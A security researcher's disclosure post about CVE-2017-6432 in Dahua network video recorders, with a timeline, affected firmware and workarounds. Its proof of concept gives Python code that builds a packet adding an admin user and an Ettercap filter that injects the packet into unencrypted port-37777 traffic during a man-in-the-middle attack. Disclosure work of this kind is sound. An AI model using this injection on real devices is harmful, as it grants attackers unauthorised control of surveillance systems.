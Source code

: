 ```yaml
---
layout: post
title:  "Dahua NVR - Exploiting - CVE-2017-6432"
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream

#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure

### The Hardware and Software

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  

As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)

This in turn, makes this connection vulnerable to both packet manipulation and packet injection.

The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  


### Proof of Concept


First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.


![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}


Now that we have our content, the following ettercap filter is used.
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  

```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}

Now, Load this up into ettercap, do our magic, and have a peek at what happens

I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}

Yes, I should have to do something better than this... but I don't!

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}

Originally I did so this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work

![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}


### Additional Notes

While this proof of concept is only for injecting a user, it could be used for much more.


### Workarounds

There are none, this is insecure by design.  
Until proper encryption is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  

### Vendor Response

Will update this when they do.
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.

### Credits

Vulnerability discovered by Andrew Frahn (null_ku7)

### References

CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: (https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)[https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html]
